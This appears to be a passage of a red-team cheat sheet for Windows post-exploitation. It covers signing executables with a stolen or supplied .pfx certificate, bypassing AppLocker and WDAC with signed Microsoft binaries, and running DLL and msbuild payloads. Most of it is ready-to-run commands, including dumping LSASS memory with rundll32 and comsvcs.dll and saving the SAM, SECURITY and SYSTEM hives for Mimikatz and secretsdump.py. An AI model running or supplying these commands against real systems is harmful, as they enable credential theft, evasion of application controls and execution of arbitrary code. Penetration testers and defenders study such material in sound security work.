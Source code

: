 #### Check .pfx file for code signing EKU
-  `Code Signing 1.3.6.1.5.5.7.3.3`
-  `Cert Hash(sha1)` to validate cert hash
```
certutil -v -dump -p "<PASSWORD>" <PATH TO PFX>
```

#### Sign a tool
- https://learn.microsoft.com/en-us/dotnet/framework/tools/signtool-exe
```
.\signtool.exe sign /fd SHA256 /a /f <PATH TO PFX FILE> /p '<PASSWORD>' <EXE TO SIGN>
```

#### Get Signer Certificate of tool
```
Get-AuthenticodeSignature -FilePath <PATH TO EXE>
```

### Bypass application allowlisting and denylisting
- https://github.com/bohops/UltimateWDACBypassList

#### LOLBAS
- Use Microsoft Signed Binaries to exploit https://lolbas-project.github.io/
- Can be used to bypass Applocker or WDAC

#### rundll32.exe and comsvcs.dll dumping lsass:
```
Get-Process | Select-String lsass
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump <PROCESS ID> C:\Users\Public\lsass.dmp full
dir C:\Users\Public\lsass.dmp

Invoke-Mimikatz -Command '"sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords"'
```

#### Reg.exe dumping sam
```
reg save HKLM\SECURITY security.bak
reg save HKLM\SYSTEM system.bak
reg save HKLM\SAM sam.bak

Invoke-Mimikatz -Command '"lsadump::sam system.bak sam.bak"'
secretsdump.py -sam sam.bak -security security.bak -system system.bak local
```

#### rundll32.exe dll payload
```
C:\Windows\System32\rundll32.exe <FILE>.dll,StartW
```

### Msbuilt.exe
- Can be used to execute arbitrary C# code from a `.csproj` or `.xml` file.
```
msbuild.exe <FILE>
```
